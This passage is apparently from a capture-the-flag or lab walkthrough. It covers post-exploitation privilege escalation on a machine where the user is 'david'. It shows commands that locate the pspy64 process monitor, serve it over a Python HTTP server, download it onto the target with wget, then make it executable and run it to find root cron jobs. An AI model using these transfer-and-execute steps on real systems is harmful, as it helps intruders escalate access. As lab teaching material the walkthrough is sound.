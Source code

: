 ```bash
david@system:~$ ls
```

**OUTPUT**

```bash
user.txt
```

## Post Explotation

### Privilege Escalation

To identify potential opportunities for privilege escalation, we can enumerate the background tasks or processes currently running with **root privileges**. By analyzing these tasks, we may discover misconfigurations, vulnerable services, or exploitable scripts that could allow us to escalate our privileges.

#### Step 1: Enumerate cron jobs

To monitor running processes on the target system, we can use `pspy64`, a powerful tool designed to observe background processes without requiring root privileges. Since the target machine does not have this tool installed, we will transfer it by setting up a temporary file server using Python.

**Attention:** Mount the server in thesame location of `pspy64`

With `find` to serach in case we do not know where we have it.

```bash
find / -name "pspy64" 2>/dev/null
```

**OUTPUT**

```bash
/opt/pspy64
# In my case
```

**Note:** in case we don't have it we can download it from https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1

Run server:

```bash
python -m http.server 80
```


In Davd:

```bash
david@system:~$ wget "http://192.168.0.103/pspy64"
```

Now:

```bash
david@system:~$ chmod +x pspy64
david@system:~$ ./pspy64
```
